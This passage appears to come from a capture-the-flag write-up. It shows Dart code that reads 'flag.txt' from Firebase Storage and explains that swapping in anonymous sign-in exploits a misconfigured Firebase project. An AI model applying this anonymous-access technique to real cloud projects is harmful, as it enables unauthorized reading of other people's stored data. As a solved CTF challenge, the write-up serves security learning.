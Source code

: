 ```dart
  }
  var storage = FirebaseStorage.instanceFor(app: app);
  var ref = storage.ref().child('flag.txt');
  var m = await ref.getMetadata();
  var v = utf8.decode((await ref.getData(m.size))!);
  print('Flag : $v');
}
```

There **might** be a basic **security misconfiguration** in the Firebase Project, just like the Anonymous FTP login, we can try to login as anonymous through this project since `vaints` is not authorized anymore.

Replacing those `try-catch` with `await auth.signInAnonymously();` , and you'll successfully retrieved the content of `flag.txt` from `fluttish.org` company DB.